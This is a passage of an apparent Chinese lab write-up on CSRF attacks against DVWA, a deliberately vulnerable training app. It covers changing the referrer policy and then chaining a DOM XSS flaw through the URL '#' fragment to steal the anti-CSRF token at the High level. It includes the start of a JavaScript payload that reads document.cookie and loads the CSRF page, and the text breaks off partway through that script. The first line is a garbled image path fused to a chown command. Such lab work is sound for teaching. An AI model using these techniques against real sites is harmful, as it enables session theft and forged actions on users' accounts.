 chown www-data:www-data 192.168.0.107 -R  
  
修改referer策略  
  
手工指定策略  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUabooRtJPzULZ6HMWazXRWO5tT7ta184Gq6fkc4E7Nibc0icWic1qicfhF3fBwxHjfJddGibBqbujoCL6g/640?wx_fmt=png&from=appmsg "")  
  
<meta name="referrer" content="no-referrer-when-downgrade">  
  
  
修改完成，我们再打开假冒页面进行访问发送  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUabooRtJPzULZ6HMWazXRWOhWDSxXSRfAV6Dia7wkbg31ZUmwAs1iau27cQ8iaE0UbRVdFaDmcv4Brcw/640?wx_fmt=png&from=appmsg "")  
  
抓包看一下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUabooRtJPzULZ6HMWazXRWOJxMW9nNSym2gMCnpwJR0eVGkFcevSzb83zwypfJfZAOGaoibyI4BibJg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUabooRtJPzULZ6HMWazXRWOCl9UmFMVgxPbbum6uP3rNV1ZUKhXYpUlAKM0NiccBUicDr3ic8Pl9Mmgw/640?wx_fmt=png&from=appmsg "")  
  
  
  
任务三、基于DVWA的High级别实现CSRF攻击  
  
首先修改安全级别  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUabooRtJPzULZ6HMWazXRWOmmLhl0rzrWj97ErjJfwnHsA2Hx2r3nM9P2WaGOn9gDkG18jmd8E2vQ/640?wx_fmt=png&from=appmsg "")  
  
分析源码，这里要求我们提交时候有一个token的验证，这个验证无法绕过，只能通过xss的方式盗取  
  
我们先进行一个xss的漏洞利用  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUabooRtJPzULZ6HMWazXRWOd5CDJkMpbkLHwT6xMSM9b7tsnE1PGicFvAUGeQwiayFUIeoniadeSf0BA/640?wx_fmt=png&from=appmsg "")  
  
这里可以看到设置了白名单，只能使用白名单中的字符  
  
  
思路就是使用#，#后的字符不会被发送到服务器，会在本地直接执行  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUabooRtJPzULZ6HMWazXRWO5kUpyfLfIWhY5kDr69JvRV023gCGzA6iblEQY7T3GfjPlYibjc7BUKGA/640?wx_fmt=png&from=appmsg "")  
  
我们来构造一个js文件来进行csrf攻击  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUabooRtJPzULZ6HMWazXRWOy93BxcibSMxNPNeJHicdRsCkpqxIcRdsLJZ451EJ4bScgDvVLF5sInNQ/640?wx_fmt=png&from=appmsg "")  
  
//弹出 cookie  
  
alert(document.cookie);  
  
//定义 AJAX 加载的页面  
  
var theUrl = 'http://192.168.1.63/DVWA-master/vulnerabilities/csrf/';  
  
//匹配浏览器  
  
if (window.XMLHttpRequest){  
  
// IE7+, Firefox, Chrome, Opera, Safari  
  
xmlhttp=new XMLHttpRequest();  
  